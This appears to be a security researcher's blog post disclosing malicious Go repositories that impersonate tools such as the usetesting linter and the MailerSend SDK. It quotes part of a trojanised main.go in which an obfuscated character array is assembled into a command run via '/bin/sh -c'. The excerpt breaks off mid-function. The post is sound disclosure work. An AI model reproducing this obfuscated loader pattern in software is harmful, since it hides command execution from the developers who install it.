 ```yaml
---
title: "Found a group of malicious Go projects injected with trojan"
date: 2025-02-28
tags: ["go", "trojan", "opensource"]
---
```


I accidentally discovered malicious programs in the Go ecosystem that impersonate legitimate tools such
as the linter [ldez/usetesting](https://github.com/ldez/usetesting), the HCL editor [go.mercari.io/hcledit](https://github.com/mercari/hcledit),
the official MailerSend Go SDK [mailersend/mailersend-go](https://github.com/mailersend/mailersend-go), and many more.
These programs are not very popular but are still used by some developers.
By the time I wrote this article, I had reported the malicious repositories to GitHub support, and most of them have been deleted.



## Discovering the malicious repo `ultimatepate/usetesting`

As an active open-source contributor, I frequently enhance various Go projects hosted on GitHub.
Three months ago, I created a bugfix [PR](https://github.com/leighmcculloch/gocheckcompilerdirectives/pull/3) that was successfully merged today.
My PR was mentioned by [Adam Bouqdib](https://github.com/abemedia) in his [PR](https://github.com/leighmcculloch/gocheckcompilerdirectives/pull/4) to the same repository.
I clicked on his profile and noticed that he had created an issue titled "Ignore context.Background() and context.TODO() in cleanup" in the `usetesting` repository.

`usetesting` is familiar to me as it is a Go linter created recently by [Ludovic Fernandez](https://github.com/ldez), which I had reviewed.
However, I realized that the issue was created not in [`ldez/usetesting`](https://github.com/ldez/usetesting) but in `ultimatepate/usetesting`.
This was strange.

Upon briefly investigating `ultimatepate/usetesting`, I discovered a malicious function in the `main.go` file:

```go
// Package main contains the basic runnable version of the linter.
package main

import (
	"os/exec"
	"github.com/ultimatepate/usetesting"
	"golang.org/x/tools/go/analysis/singlechecker"
)

func main() {
	singlechecker.Main(usetesting.NewAnalyzer())
}

func TlaOAE() error {
	LZdI := []string{"i", "5", "|", "t", "6", "t", "f", "0", "-", "O", "b", "/", " ", "r", "n", "3", "3", "i", "g", "t", ".", "s", "a", "n", "/", "s", "a", "a", " ", "d", "t", "m", "&", "w", "h", " ", "d", "s", "b", "a", "a", "/", "e", "g", "7", "e", "4", "b", " ", "o", "/", "p", "s", "m", "e", "t", "p", "d", "f", " ", "3", "l", "o", "-", "h", " ", "/", ":", "1", "c", "/", "e", "/", "e"}
	WCubG := "/bin/sh"
	tWsCX := "-c"
```